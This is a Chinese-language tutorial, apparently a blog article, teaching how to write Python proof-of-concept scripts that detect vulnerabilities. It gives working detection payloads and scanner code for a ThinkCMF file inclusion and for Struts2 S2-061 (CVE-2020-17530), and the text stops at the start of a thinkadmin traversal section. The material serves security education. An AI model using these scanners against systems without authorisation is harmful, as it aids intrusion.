# 1. 概念引入

`POC`是`“Proof of Concept”`的缩写，意为“概念证明”或“概念验证”。在计算机安全领域，它常指一段能够证明漏洞存在的代码或方法，是对某些想法的一个较短而不完整的实现，以证明其可行性并示范其原理。此外，`POC`也经常被用来作为`0day`和`exploit`的别名。

`EXP`则是`“Exploit”`的缩写，意为“漏洞利用”。它指的是利用系统或软件中的漏洞进行攻击的动作或程序。攻击者通常会利用已知的漏洞或通过自己的研究和分析来发现新的漏洞，并利用这些漏洞来执行恶意代码或获取系统权限，从而达到窃取敏感信息、破坏系统或控制系统的目的。

这里我们通过一个`POC&EXP`来学习从0到1的编写，同时重点的点也不可能统一在前面说清楚的，由于需要结合案例以及代码，所以一些重要的内容会分布在内容中。

同时文章中会使用到很多的内容是我前两篇文章中的内容，例如模块的介绍，等等这些请查看公众号前两篇文章。

# 2. `POC`编写

网上很多的`POC`或者`EXP`能够编写出来的前提就是能够有一套完整的复现流程，所以想要编写那么就需要你亲身体会的去对这些漏洞进行复现一边。

这里我们开始写一个就是`POC`，`POC`相比`EXP`在写的过程中稍许简单点，注意几个事项：

```
漏洞的payload
漏洞返回结果中的特征
漏洞复现的流程
```

这里我们就拿`thinkcmf文件包含`漏洞来开始编写我们最简单的`POC`，这个完整版本是：`thinkcmf文件包含 x1.6.0-x2.2.3`，这里具体的漏洞复现我会带着提示来做。

## 2.1. GET与POST

在编写`POC`或者`EXP`的时候根据不同的情况，所需要发送请求类型也是不同的，这个是需要注意的。总的来说，`GET`和`POST`请求在`HTTP`协议中各有其用途和适用场景。在选择使用哪种请求方法时，应根据具体需求和数据类型进行考虑。

```
GET和POST是HTTP协议中两种常见的请求方法，它们之间存在一些明显的区别：

请求参数的位置：
	GET请求的请求参数会附加在URL的后面，URL与参数之间用问号（?）分隔，参数之间用和号（&）分隔。例如：http://example.com?param1=value1&param2=value2。
	POST请求的请求参数则包含在请求体中，不会在URL中显示。这意味着POST请求可以传输大量的数据，且不会受到URL长度的限制。
请求的安全性：
	GET请求的参数直接暴露在URL中，因此不适合传输敏感信息，如密码或用户隐私数据。这些信息容易被缓存、记录在日志中或被其他用户看到。
	POST请求的参数在请求体中，不会在URL中显示，因此相对更安全。它常用于提交表单数据，尤其是包含敏感信息的表单。
请求的数据量：
	GET请求由于参数附加在URL后面，受到URL长度的限制，因此传输的数据量相对较小。
	POST请求没有这种限制，可以传输大量的数据。
幂等性：
	GET请求是幂等的，即多次执行相同的GET请求，其效果与单次执行相同。这意味着，如果你多次发送相同的GET请求，服务器将返回相同的结果。
	POST请求不是幂等的。每次执行POST请求都可能在服务器上产生新的资源或修改现有资源。
后退/刷新按钮的影响：
	GET请求可以通过浏览器后退/刷新按钮重复执行，这可能导致缓存的页面内容被重新加载。
	POST请求则不会受到浏览器后退/刷新按钮的影响，因为POST请求通常用于修改数据，重复执行可能会导致不期望的结果。
缓存：
	GET请求可以被浏览器、代理服务器、CDN等缓存，这有助于提高性能。
	POST请求通常不会被缓存，因为它们通常用于修改数据或执行其他非幂等操作。
书签：
	GET请求的URL可以被保存为书签，方便用户后续访问。
	POST请求的URL不包含请求参数，因此无法直接保存为书签。
```

## 2.2. `thinkcmf`文件包含(Get请求)

这里我就懒的去搭建靶机了，网上有现场的靶场合集，这里我们就使用现场的在线靶场，去找到这个漏洞，然后最好自己先去复现一下，知道复现中`payload`与整体的流程

在线靶场：[`vulfocus`](https://vulfocus.cn/#/dashboard)

### 2.2.1. `POC`验证

这里我们了解到，关于这个漏洞，从复现的角度来说，能够读取到一个`README.md`文件，如果能够读取到这个文件就证明存在漏洞，当然这个是基于这个版本上，主要还是由于复现中其它的payload的都是属于EXP类的，我们暂时还没写到，所以不管对于错，先按照找个思路来。

而且编写`POC`的时候，首先就需要前置，比如说：`sali-lab`靶场第一关是单引号注入，那么我们只需要在URL后面添加单引号，如果报错了就证明存在漏洞。

而我们需要测试的这个文件包含漏洞也是这样，如果能够读取到`README.md`文件，那么就证明存在漏洞，而这个就是思路，那么我们理解这个思路后就可以好操作了。

#### 2.2.1.1. 漏洞存在复现

这里我们对漏洞进行基础的复现，通过`URL`与`payload`的结合得到了下面网页中的内容，那么这里我们就获取到我们的`payload`，而且我们在编写`POC`的时候就需要这个`payload`。

```
payload：/?a=display&templateFile=README.md
```



### 2.2.2. 编写`POC`

这里我们编写最简单的`POC`，暂时不加上那些什么选参数等等内容，就是默认的一些内容，然后我们根据这个内容进行分析！

这里关于`Requests`模块，请去查的我第一篇文章或者百度去搜，是干嘛的，这里简述一下就是用于发送GET或者POST请求用的模块。

```python
##导入模块：Requests模块是Python中最简单易用的HTTP客户端库,可以极大简化发送HTTP请求的代码
import requests   

##这个地方的payload，就是我们上面的payload
payload = "/?a=display&templateFile=README.md"

##url = 这里我是固定死的IP地址并且加上相应的端口号同时破解payload，相当于：http://123.58.224.8:51653/?a=display&templateFile=README.md

url = f"http://123.58.224.8:51653{payload}"

##这个地方的值就是我使用bp中的插件获取到的，具体使用方式参考第一篇文章模块介绍，默认会添加burp_...，可以将前面的删除就可以了。
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
           "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
           "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
           "DNT": "1", "Connection": "close"}

##这里地方就是使用requests发送get请求，这一步在上述bp插件中也会自动生成，只不过需要自己手动添加一个值去保存，后续我们需要使用到。
r = requests.get(url, headers=headers)

##这里就是进行判断，r.text就是上述r中保存的值，而目前r.text中保存的是响应后页面中展示的内容，，例如下面截图中我框选起来的内容
##相当于：如果在响应的页面中存在"ThinkCMF是一款"字样，那么就可以判断为存在漏洞，否则就不存在漏洞。
if "ThinkCMF是一款" in r.text:
    print("存在漏洞")
else:
    print("不存在漏洞")
```

注意事项：

本代码中是存在可优化的内容，但是如果将多个内容都集成写在一起，可能会导致新手理解起来比较麻烦。

同时在`if`判断的那里为什么要选择`ThinkCMF是一款`，这个就相当于我的参照物，我们目前处于学习的过程中，没有那么严谨，所以我们随机选取了一段内容作为判定值。

如果在严格的编写下，这里的判定值一定要选择响应页面中独一无二的内容。


这里我们测试一下验证的结果，通过验证，这段代码是可执行的，但是这并没有完！



#### 2.2.2.1. 脚本报错

在上面我们说代码可以执行，但是并没有完，可能你们会觉得，是不是要加上一些花里胡哨的东西了，并非，而是在执行的时候，我们只是判断了是否存在漏洞，若这个URL地址是通信的，并且没有漏洞，那么结果是这样的：



但是如果地址是不通的，或者没有开启80端口的，结果就会这样：



上述原因就是由于代码出现了异常，而并没有相应的代码去处理python脚本中的异常，那么就会导致，运行时间很长，同时出现报错。

那么想要解决这些报错以及运行时间很长的情况，我们就需要使用到python中异常处理，也就是`try:`，这里我是专业的程序猿，我怕解释不清楚，这里我就放一个参考文章，去学习！

参考文章：[python异常处理（十分钟彻底搞定！）-CSDN博客](https://blog.csdn.net/weixin_46900108/article/details/119737680)

```python
try:
    #尝试执行的代码
    pass
except 错误类型1:
    #针对错误类型1，对应的代码处理
    pass
except(错误类型2,错误类型3):
    #针对错误类型2 和3 对应的代码处理
    pass
except Exception as result:
    print("未知错误 %s" %result)
```

根据上述我们来修改一些代码，之前代码解释过的地方，我就不再解释了，这里我们解决掉，脚本报错的问题了，但是对于页面的响应还是需要很长时间，我们后续在修改。

```python
import requests


payload = "/?a=display&templateFile=README.md"

url = f"http://10.1.22.33:80{payload}"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
           "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
           "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
           "DNT": "1", "Connection": "close"}

##开始捕捉错误异常
try:
    ##尝试执行语句，发送get请求。
    r = requests.get(url, headers=headers)
    ##进行判断
    if "ThinkCMF是一款" in r.text:
        print("存在漏洞")
    else:
        print("不存在漏洞")
##如果上述语句执行的不顺利，也就相当于例如IP地址不通、端口不通等等情况，那么就执行下述内容：您输入的有误
except Exception as e:
    print("您输入的有误")
```



#### 2.2.2.2. 脚本美化

到这里我们基本上一个`POC`就编写好了，是不是很简单，那么这里我们对这个`POC`进行美化优化，我们写`POC`，主要是针对不同的环境下不同的`IP`地址测试，而我们上述写的脚本中，都将`URL`写固定了，那么这样肯定是有问题的，所以我们对这个`POC`进行优化，确保能够适应不同`IP`以及不同端口的情况。

这里我要说一下关于`sys`这个模块：

参考文章：[python中 os._exit() 和 sys.exit()区别](https://blog.csdn.net/geekleee/article/details/52794826)

`os`模块中也有一个退出，而`os`模块中退出会将`python`秩序终止，之后的代码就不会继续执行，而`sys`模块中退出会引发一个异常：`SystemExit`，如果这个异常没有被捕获，那么`python`解释器将会退出。如果有捕获此异常的代码，那么这些代码还是会执行。捕获这个异常可以做一些额外的清理工作。`0`为正常退出，其他数值`（1-127）`为不正常，可抛异常事件供捕获。

`sys.exit()`的退出比较优雅，调用后会引发`SystemExit`异常，可以捕获此异常做清理工作。`os._exit()`直接将`python`解释器退出，余下的语句不会执行。

一般情况下使用`sys.exit()`即可，一般在`fork`出来的子进程中使用os._exit()

```python
sys.exit(0)：无错误退出
sys.exit(1)：有错误退出
```

这里我还是直接在脚本中加注释进行介绍：

```python
##这些库，请看我前两篇文章
import argparse  
import requests
##这个sys主要用到它退出
import sys

##创建POC模块接收两个参数
def poc(url, port):
    ##创建我们需要验证的payload
    payload = "/?a=display&templateFile=README.md"
    
    ##拼接传进来的url、端口、payload，并保存给url1 最后形成：http://URL:端口/?a=display&templateFile=README.md
    url1 = f"{url}:{port}{payload}"
    
    ##请求头，使用bp插件生成
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    ##处理异常
    try:
        ##发送get请求，第一个位置是url1的值，headers=headers 是请求头，verify=False禁用 SSL 验证，timeout=5 响应超时时间5秒，allow_redirects=False禁用重定向的请求
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        ##这里就是判断
        if "ThinkCMF是一款" in r.text:
            print(f"[+]{url}存在Thinkcmf文件包含漏洞")
        else:
            print(f"[-]{url}不存在Thinkcmf文件包含漏洞")
    except Exception as e:
        ##异常回复
        print(f"[-]{url}存在异常，请检查！")
        ##异常退出
        sys.exit(1)


def main():
    ##字符画
    banner = """

.::: .::::::                    .::         .::   .::       .::.::::::::
     .::    .::      .:         .::      .::   .::.: .::   .:::.::      
     .::    .::        .:: .::  .::  .::.::       .:: .:: . .::.::      
     .::    .: .:   .:: .::  .::.:: .:: .::       .::  .::  .::.::::::  
     .::    .::  .::.:: .::  .::.:.::   .::       .::   .:  .::.::      
     .::    .:   .::.:: .::  .::.:: .::  .::   .::.::       .::.::      
     .::    .::  .::.::.:::  .::.::  .::   .::::  .::       .::.::  
    """
    print(banner)
    ##漏洞版本，当然也可以写你想写的
    print("Vulnerability version: x1.6.0-x2.2.3")
    
    ##以下我今儿不解释了应该都针对是啥了，不懂的看前几篇文章！
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=80,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    ##传参数
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```

#### 2.2.2.3. 脚本测试

这里我们就测试以下，首先需要注意的是，这个脚本，在不指定端口的时候，默认使用80端口，我们主要测试存在漏洞、不存在漏洞、网络不通情况。

存在漏洞测试：

由于这里修改了靶场是映射端口的，所以这里必须设置端口！



不存在漏洞测试：

这里我还是用靶场，但是我不使用靶场给的端口，我们就测试80端口，我测试了分配的地址80端口是通的，但是服务不对，所以这里肯定是不存在漏洞的。



地址不通测试：

地址不通其实就是属于异常错误了，触发的就应该是存在异常，请检查，那么这里我们也是等待了5秒，由于我们设置了响应等待是5秒，所以需要等待5秒。



#### 2.2.2.4. 注意事项

请注意代码中发送请求时的函数。

```python
response = requests.post(full_url, headers=headers, data=data,verify=False, timeout=5,
allow_redirects=False)
```

- `full_url`: 这是你想要发送 `POST` 请求的完整 `URL`。
- `headers`: 这是一个字典，包含了 `HTTP` 请求的头部信息。这些头部信息可以用来描述请求的发送者、请求的内容类型等。
- `data`: 这是你想要发送的数据。对于 `POST` 请求，通常这个参数会包含一些需要提交给服务器的数据，这些数据可以是字典、字节串、文件对象等。
- `verify`: 这个参数控制是否验证 `SSL` 证书。如果设置为 `False`，则请求将不会验证 `SSL` 证书，这可能会降低安全性，但在某些情况下（例如，当目标服务器使用自签名证书时）可能是必要的。
- `timeout`: 这个参数设置了请求的超时时间（以秒为单位）。如果在这个时间内请求没有完成，将会抛出一个异常。
- `allow_redirects`: 这个参数控制请求是否允许自动重定向。如果设置为 `False`，即使服务器返回了一个重定向响应，`requests` 也不会自动跟随这个重定向。

在这个例子中，`response` 变量将会保存 `requests.post` 的返回值，这是一个 `Response` 对象。你可以从这个对象中获取很多关于响应的信息，比如状态码、头部信息、响应内容等。

例如，你可以使用 `response.status_code` 来获取响应的状态码，使用 `response.text` 来获取响应的文本内容。

## 2.3. `Struts2 S2-061` 远程命令执行漏洞(Get请求)

`CVE`编号：`CVE-2020-17530`

漏洞原理我就不说，我把这个`POC`代码直接放出来，自己去看一下，结合复现过程的原理来看代码！

```python
import argparse
import requests
import sys


def poc(url, port):
    payload = "/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if "test2041" in r.text:
            print(f"[+]{url}存在CVE-2020-17530远程命令执行漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-17530远程命令执行漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
  .:: ::    .::                   .::                 
.::    .::  .::                   .::          .:::.: 
 .::      .:.: .:.: .:::.::  .::.:.: .: .:::: .:    .:
   .::      .::   .::   .::  .::  .::  .::        .:: 
      .::   .::   .::   .::  .::  .::    .:::   .::   
.::    .::  .::   .::   .::  .::  .::      .::.::     
  .:: ::     .:: .:::     .::.::   .:: .:: .::.:::::::
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```



## 2.4. `thinkadmin`目录遍历(Post请求)

这里同时使用在线靶场，而且在线靶场中可能获取的数据可能和实际的情况有所不同，例如这个漏洞，我看网上别人获取到的目录遍历都是英文的，而我使用靶场获取到的目录都是中文的，所以在实际编写过程中可能需要多测试几个案例，才能够真正完善好脚本，使得脚本能覆盖的更广。

`CVE`编号：`CVE-2020-25540`

### 2.4.1. `POC`验证

